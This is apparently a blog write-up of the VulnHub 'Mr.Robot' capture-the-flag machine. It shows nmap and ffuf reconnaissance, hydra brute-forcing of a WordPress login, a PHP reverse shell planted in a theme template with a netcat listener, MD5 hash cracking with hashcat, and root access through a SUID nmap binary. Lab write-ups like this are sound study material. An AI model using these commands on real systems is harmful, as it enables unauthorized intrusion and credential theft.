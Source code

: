 ```yaml
---
layout: single
title: Mr.robot vulnhub writeup
excerpt: "Easy linux machine in which we bruteforce credentials and abuse a SUID binary"
date: 2022-08-15
classes: wide
header:
  teaser: /assets/images/mrrobot/icon-mrrobot.jpg
  teaser_home_page: true
  icon: /assets/images/vulnhub.png
categories:
  - writeup
tags:
  - vulnhub
  - wordpress
  - fuzzing
  - bruteforce
---
```


![](/assets/images/mrrobot/mrrobot.gif)

# Mr.robot
# Flag 1

In this machine we need to get 3 keys so let's start by port scanning

```shell
[dasor@archlinux ~/htb/mrrobot]$nmap -p- -sS --min-rate 9000 -vvv -n -Pn -oA allports 192.168.1.35
PORT    STATE  SERVICE REASON
22/tcp  closed ssh     reset ttl 64
80/tcp  open   http    syn-ack ttl 64
443/tcp open   https   syn-ack ttl 64
```

So a website as usual in this types of CTF's. The main page is a very cool console but that is meaningless in terms of getting the keys. Next thing fuzzing which reported a lot of subdomains here is all I found

  Command line : `ffuf -w /home/dasor/wordlist/directory-list-2.3-big.txt -u https://192.168.1.35/FUZZ -v -t 200 -of md -o ffuf`
  Time: 2022-08-14T23:04:22&#43;02:00

  | FUZZ | URL | Redirectlocation | Position | Status Code | Content Length | Content Words | Content Lines | Content Type | ResultFile |
  | :- | :-- | :--------------- | :---- | :------- | :---------- | :------------- | :------------ | :--------- | :----------- |
  | blog | https://192.168.1.35/blog | https://192.168.1.35/blog/ | 18 | 301 | 234 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | images | https://192.168.1.35/images | https://192.168.1.35/images/ | 2 | 301 | 236 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | sitemap | https://192.168.1.35/sitemap |  | 29 | 200 | 0 | 1 | 1 | application/xml |  |
  | video | https://192.168.1.35/video | https://192.168.1.35/video/ | 119 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | rss | https://192.168.1.35/rss | https://192.168.1.35/feed/ | 23 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-content | https://192.168.1.35/wp-content | https://192.168.1.35/wp-content/ | 227 | 301 | 240 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | admin | https://192.168.1.35/admin | https://192.168.1.35/admin/ | 245 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | 0 | https://192.168.1.35/0 | https://192.168.1.35/0/ | 110 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | feed | https://192.168.1.35/feed | https://192.168.1.35/feed/ | 112 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | login | https://192.168.1.35/login | https://192.168.1.35/wp-login.php | 39 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | atom | https://192.168.1.35/atom | https://192.168.1.35/feed/atom/ | 154 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | audio | https://192.168.1.35/audio | https://192.168.1.35/audio/ | 317 | 301 | 235 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | intro | https://192.168.1.35/intro |  | 334 | 200 | 516314 | 2076 | 2028 | video/webm |  |
  | image | https://192.168.1.35/image | https://192.168.1.35/image/ | 149 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | css | https://192.168.1.35/css | https://192.168.1.35/css/ | 540 | 301 | 233 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | wp-login | https://192.168.1.35/wp-login |  | 461 | 200 | 2688 | 117 | 54 | text/html; charset=UTF-8 |  |
  | license | https://192.168.1.35/license |  | 663 | 200 | 19930 | 3334 | 386 | text/plain |  |
  | rss2 | https://192.168.1.35/rss2 | https://192.168.1.35/feed/ | 534 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-includes | https://192.168.1.35/wp-includes | https://192.168.1.35/wp-includes/ | 774 | 301 | 241 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | js | https://192.168.1.35/js | https://192.168.1.35/js/ | 939 | 301 | 232 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | Image | https://192.168.1.35/Image | https://192.168.1.35/Image/ | 970 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | readme | https://192.168.1.35/readme |  | 1737 | 200 | 7334 | 759 | 98 | text/html; charset=utf-8 |  |
  | robots | https://192.168.1.35/robots |  | 1739 | 200 | 41 | 2 | 4 | text/plain |  |
  | rdf | https://192.168.1.35/rdf | https://192.168.1.35/feed/rdf/ | 1594 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | page1 | https://192.168.1.35/page1 | https://192.168.1.35/ | 1608 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | dashboard | https://192.168.1.35/dashboard | https://192.168.1.35/wp-admin/ | 2879 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | %20 | https://192.168.1.35/%20 | https://192.168.1.35/ | 3814 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | wp-admin | https://192.168.1.35/wp-admin | https://192.168.1.35/wp-admin/ | 7510 | 301 | 238 | 14 | 8 | text/html; charset=iso-8859-1 |  |
  | phpmyadmin | https://192.168.1.35/phpmyadmin |  | 11152 | 403 | 94 | 14 | 1 | text/html; charset=iso-8859-1 |  |
  | 0000 | https://192.168.1.35/0000 | https://192.168.1.35/0000/ | 11099 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  | xmlrpc | https://192.168.1.35/xmlrpc |  | 17491 | 405 | 42 | 6 | 1 | text/plain;charset=UTF-8 |  |
  | wp-signup | https://192.168.1.35/wp-signup | https://192.168.1.35/wp-login.php?action=register | 37900 | 302 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |
  |  | https://192.168.1.35/ |  | 39970 | 200 | 1077 | 189 | 31 | text/html |  |
  | IMAGE | https://192.168.1.35/IMAGE | https://192.168.1.35/IMAGE/ | 40678 | 301 | 0 | 1 | 1 | text/html; charset=UTF-8 |  |


Anyway most of this isn't useful, the crucial facts is the robots file and the fact that the page is a wordpress site. Going to the robots file shows us two files a dictionary and the first key. The dictionary seems to be huge but many things are repeated a lot of times

# Flag 2

```shell
[dasor@archlinux ~/htb/mrrobot]$ wc -l fsocity.dic
858160 fsocity.dic
[dasor@archlinux ~/htb/mrrobot]$ sort fsocity.dic | uniq | wc -l
11451
```

Only 11451 lines, not that huge now. Next since we have a dictionary I tried to enumerate users with hydra and then cracks it's password

```shell
hydra -vV -L dictionary -p whatever 192.168.1.35 http-post-form -f '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
...
[80][http-post-form] host: 192.168.1.35   login: elliot   password: whatever
[STATUS] attack finished for 192.168.1.35 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
...( Now the password)
hydra -vV -l elliot -P dictionary 192.168.1.35 http-post-form -f '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered'
...
[80][http-post-form] host: 192.168.1.35   login: elliot   password: ER28-0652
[STATUS] attack finished for 192.168.1.35 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

Now let's login. Once in I tried many things like XSS or login as mich05654 (the other user that appears in the page) but meaningful happened. However my old friend [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#panel-rce)
had the solution. As admin you can change the theme of the webpage and put a reverse shell in for example the 404 template. The reverse shell can be found in pentestmokey [here](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz). To start the reverse shell you just need to listen and go to a not existing page as always also let's improve the tty when we get the reverse shell.

```shell
[dasor@archlinux ~]$ nc -lvp 7777
Connection from 192.168.1.35:57792
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 10:13:45 up  1:44,  0 users,  load average: 0.00, 0.04, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~]$ stty raw -echo; fg
[1]  + continued  nc -lvp 7777

daemon@linux:/$ stty rows 30 columns 132
daemon@linux:/$
```

We are logged as daemon but for some reason we have access to the home of the user robot which contains and md5 hash and the second key

```shell
dasor@archlinux ~/htb/mrrobot]$ hashcat -m 0 hashmd5 ~/wordlist/rockyou.txt --show
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
```
# Flag 3

Once the hash was cracked I logged in as robot and started searching for a priv esc vector. Although the server has ftp and mysql open internally they are inaccessible since there are no mysql/ftp binaries. So to make things easier I decided to run linpeas and the results gave me 2 95% PE vector, one the linux version and the other a nmap binary with SUID bit. I tried the nmap SUID binary and got root getting the last key.

```shell
robot@linux:~$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
```

Later I tried some suggested exploits but none worked for me so it seems this is the simplest way to get root
